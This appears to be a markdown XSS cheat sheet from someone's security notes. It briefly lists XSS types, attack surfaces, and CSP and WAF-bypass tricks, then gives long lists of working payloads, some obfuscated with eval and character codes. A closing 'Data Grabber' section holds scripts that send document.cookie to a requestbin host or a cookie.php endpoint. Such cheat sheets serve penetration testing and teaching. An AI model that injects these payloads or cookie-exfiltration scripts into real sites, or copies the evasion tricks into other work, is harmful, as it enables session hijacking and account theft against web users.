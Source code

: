 # XSS
Injection of malicious client side code into user's browser 

## Types of XXS attacks
1. Stored - payload is sent to the database and called each time the page is loaded
2. Blind XSS - type of stored XSS but you can't see the alert since it pops up in a page that you don't have access to
3. DOM Based XSS - vuln exists in client side code rather than server side code

Note: 
* Sometimes you wont see XSS alert on the same page where you entered data (Eg: profile , report).


##  Attack Surface
1. User-Agent in header
2. Image input - choosing file (XSS as an svg image)
3. XSS in URL params
4. XSS in Markdown files

## IF CSP policy is set to `self` you cannot execute inline or external scripts. Work around is JSON since it is same origin then.

Bypassing WAF:
1. Case insensitivity
2. URL encoding some special characters
3. Extra open brackets
4. Alternatives of script are - iframe, body, svg
5. Use eval

## Payloads
Basic test payload
```
<b>Test</b>
```

Basic payloads:
```
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>


<img src=x onerror="a='ale';b='rt(1)';eval(a+b);">


// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```


Using html tags
```
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<iframe/src="data:text/html,<svg onload=alert(1)>">

```
A lot of options on:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## Getting the cookie (Data Grabber)
```
<script>location="https://requestbin/?q="+document.cookie</script>

<script>fetch("https://requestbin/?q=" + document.cookie) </script>

<script>document.location="https://requestbin/?q="+document.cookie</script>

<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>



```